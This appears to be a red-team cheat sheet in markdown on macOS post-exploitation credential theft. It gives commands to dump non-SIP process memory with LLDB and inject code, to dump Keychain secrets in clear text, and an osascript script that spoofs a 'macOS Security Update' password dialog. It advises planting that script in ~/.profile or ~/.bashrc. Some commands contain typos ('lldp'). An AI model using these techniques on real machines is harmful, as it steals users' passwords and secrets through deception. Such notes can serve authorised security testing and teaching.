

# MacOS
---
# Navigation
1. **[Process memory](#process-memory)**
2. **[MacOS keychain](#macos-keychain)**
3. **[Phishing and credential dialog spoofing](#phishing-and-credential-dialog-spoofing)**
---
# Process memory
Apple made it more difficult to debug or dump process memory, even as root. Apple introduced a feature called **`System Integrity Protection (SIP)`** that limits what even the root user can do to the operating system.
```bash
# Check if SIP is enabled
csrutil status
```
If SIP is enabled, you cannot debug or inspect
these processes easily, even when running as root.
> **Important Note:**
>  SIP only protects certain folders and binaries (by default no third-party software), and ones that have proper signatures.
>  You can find protected files in: `/System/Library/Sandbox/rootless.conf`
>  or by executing the following command:
>  `ls -lhaO /Applications/ | grep -v restricted`

But the good news is that even if SIP is enabled, you can still debug certain processes using tools such as **`Low-Level Debugger (LLDB)`**. 
After finding a running process not covered by SIP, attach the LLDB debugger to it.
```bash
lldp -p <pid>
# Attach process
(lldp) process attach --pid <pid>
# Dump process memory
(lldp) process save-core
```
> You can inject code into memory:
> `(lldb) p (void) system("whoami &> /tmp/log.txt")`

[Linux#2- Decrypting TLS traffic using TLS key logging Not working on latest firefox and chrome](linux.md%25232-%2520Decrypting%2520TLS%2520traffic%2520using%2520TLS%2520key%2520logging%2520Not%2520working%2520on%2520latest%2520firefox%2520and%2520chrome)

---
# MacOS keychain
Apple introduced a consistent requirement for users to enter their password interactively whenever the Keychain is accessed to decrypt secrets, which makes it more difficult for malware to gain access. The tool to interact with Keychains is called  **`security`**.
Depending on the **macOS version** of the host, the following commands might allow you to get access to encrypted credentials. The  **`-d`**  option shows the **clear text** credentials:

```bash
security dump-keychain -d
```
There are various options to search and interact with Keychains. To find the specific stored password of an email account, we can use the following command:
```bash
security find-internet-password -a "someaccount@gmail.com" -w
```
The good thing (bad for the red teamer) about the Keychain is that it requires the user's password to access and open:



If the Keychain is locked, it can be unlocked with this command:
```bash
security unlock-keychain
```
This will prompt for the user's password to unlock the Keychain (if it is locked):


---
# Phishing and credential dialog spoofing
## 1- Spoofing a credential prompt using osascript
```bash
osascript -e 'display notification "Hello World!"'
```


- Create a password dialog
```bash
PWD_SPOOF=$(osascript -e 'display dialog "To perform a
security update macOS needs your password." with title "macOS
Security Update" default answer "" with icon stop with hidden
answer')

echo $PWD_SPOOF
```


> **Note:**
>  One of the ways to deploy this is by putting it in ~/.profile or ~/.bashrc or by sending it in a file.


